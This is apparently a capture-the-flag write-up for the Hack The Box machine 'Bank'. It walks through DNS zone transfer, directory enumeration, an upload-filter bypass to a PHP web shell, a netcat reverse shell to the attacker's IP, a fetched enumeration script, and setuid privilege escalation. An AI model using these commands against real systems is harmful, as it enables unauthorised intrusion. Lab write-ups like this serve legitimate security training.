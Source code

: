 # Bank

This is the write-up for the box Bank that got retired at the 22nd September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.29    bank.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bank.nmap 10.10.10.29
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking DNS (Port 53)

Lets enumerate some DNS information with _nslookup_:
```markdown
nslookup

> SERVER 10.10.10.29

Default server: 10.10.10.29
Address: 10.10.10.29#53

> 127.0.0.1

1.0.0.127.in-addr.arpa  name = localhost.

> 10.10.10.29

** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN

> bank.htb

Server:         10.10.10.29
Address:        10.10.10.29#53

Name:   bank.htb
Address: 10.10.10.29
```

Reverse lookup is not active and the hostname _bank.htb_ responds to the IP.
Lets try a **DNS Zone Transfer** with _dig_:
```markdown
dig axfr bank.htb @10.10.10.29

# Output
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
```

We get some subdomains that we will put into our hosts file.

## Checking HTTP (Port 80)

On the web page we see the default Apache2 Ubuntu installation page.
As we found out there is a domain name, we can browse to the web page with the domain name _bank.htb_ and we get a login page.
This is called **Virtual Host Routing**.

![Bank login page](https://kyuu-ji.github.io/htb-write-up/bank/bank_login.png)

We use **Gobuster** to enumerate hidden paths on this page with the PHP extension:
```markdown
gobuster -u http://bank.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

There are these directories that could be interesting:
- /uploads (Status: 301)
- /inc (Status: 301)
- /index.php (Status: 302)
- /support.php (Status: 302)
- /balance-transfer (Status: 200)

### Method 1 - Ignore redirects

With Burpsuite we can look on the web pages that redirect us by changing the HTTP response code from _302 Found_ to HTTP code _200 OK_.

This is the index.php page:

![Bank index page](https://kyuu-ji.github.io/htb-write-up/bank/bank_index.png)

This is the support.php page:

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-1.png)

We can upload code on the support.php to get command execution on the box.


### Method 2 - Intended way

The directory _balance-transfers_ that we found has many of these files in it:

![Bank balance-transfers page](https://kyuu-ji.github.io/htb-write-up/bank/bank_balance-transfers.png)

There are around 1000 of these files. Looking at one of them they hold this content:
```markdown
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Lets download all of them, to examine them easier in the shell.
```markdown
wget -r http://bank.htb/balance-transfer/
```

By sorting them by file size we see that most of them have either 583, 584 or 585 bytes except for one that has 257 bytes.
```markdown
wc -c \*.acc | sort -n -r
```

The file with the name **68576f20e9732f1b2edc4df5b8533230.acc** has only 257 bytes and has this content:
```markdown
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

When trying this credentials on the login page we get logged in.

There is a _Support_ page where we can upload files.

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-2.png)

The page allows images but doesn't allow PHP files to be uploaded. Looking at the source we see a comment that says:
> [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]

So lets change the extension of our file to _.htb_ instead.

![File upload](https://kyuu-ji.github.io/htb-write-up/bank/bank_file-upload.png)

We see the uploaded files in the web page and can click on the attachment to browse to that file. Now we can execute commands:
```markdown
http://bank.htb/uploads/logo.htb?cmd=whoami
```

This gives us the output that we are _www-data_. Lets start a reverse shell with this command execution.
```markdown
http://bank.htb/uploads/logo.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.23%209001
```

After a short while the the request gets sent to my listener that waits for connections on my IP and port 9001 and we started a reverse shell as www-data!

## Privilege Escalation

When looking at the PHP files from the server, we find credentials for MySQL in the file **/var/www/bank/inc/user.php**:
```php
# (...)
function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
# (...)
```

We can login into MySQL but don't find anything important and starting a shell from there won't give us a root shell:
```markdown
mysql -u root -p


mysql> \! /bin/sh
```

The password won't work on the _chris_ nor the _root_ user, so we will execute any Linux enumeration script to get an attack surface.
```markdown
wget http://10.10.14.23/LinEnum.sh | bash
```

Looking at the results we see that there is a _setuid bit_ set on the **/var/htb/bin/emergency** binary that is not a default Linux binary.
When executing this, we drop into a shell with the effective user ID of root and finished the box!
